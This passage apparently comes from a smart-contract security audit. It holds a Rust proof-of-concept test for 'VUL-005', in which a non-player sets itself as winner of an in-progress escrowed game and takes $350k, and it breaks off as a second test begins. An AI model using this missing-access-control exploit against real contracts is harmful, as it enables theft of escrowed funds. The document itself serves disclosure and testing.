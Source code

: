 #### Proof of Concept
```rust
// VUL-005 Exploitation Demonstration
// File: src/tests/vuln-005-game-state-corruption-poc.rs

#[test]
fn test_game_state_corruption_attack() {
    // Setup legitimate game session
    let player1 = Pubkey::new_unique();
    let player2 = Pubkey::new_unique();
    let attacker = Pubkey::new_unique();

    let mut game_session = GameSession {
        game_id: 12345,
        players: vec![player1, player2],
        winner: None,
        status: GameStatus::InProgress,
        escrow_amount: 350_000_000_000, // $350k USDC (6 decimals)
        created_at: 1695123456,
    };

    // Verify initial state
    assert_eq!(game_session.status, GameStatus::InProgress);
    assert!(game_session.winner.is_none());
    assert!(!game_session.players.contains(&attacker));

    // 🚨 ATTACK: Attacker corrupts game state
    // Note: In real attack, this would be called via instruction
    game_session.set_winner(attacker).unwrap();

    // Verify successful corruption
    assert_eq!(game_session.winner, Some(attacker));
    assert_eq!(game_session.status, GameStatus::Completed);

    // 🚨 CRITICAL: Attacker is now winner despite:
    // 1. Not being a player in the game
    // 2. Game still being in progress
    // 3. No legitimate victory conditions met

    // Simulate fund distribution
    let initial_attacker_balance = 0;
    let stolen_funds = game_session.escrow_amount;

    // Attacker receives all escrowed funds
    let final_attacker_balance = initial_attacker_balance + stolen_funds;

    assert_eq!(final_attacker_balance, 350_000_000_000); // $350k stolen

    // Economic verification
    let economic_damage = stolen_funds as f64 / 1_000_000.0; // Convert to USDC
    assert_eq!(economic_damage, 350_000.0);

    println!("💰 Funds stolen: ${:.0}", economic_damage);
    println!("🚨 Game corrupted: ID {}", game_session.game_id);
    println!("👤 Illegitimate winner: {}", attacker);
}

#[test]
fn test_multiple_game_corruption() {
    // Simulate attacker targeting multiple active games
    let attacker = Pubkey::new_unique();
    let mut total_stolen = 0u64;

```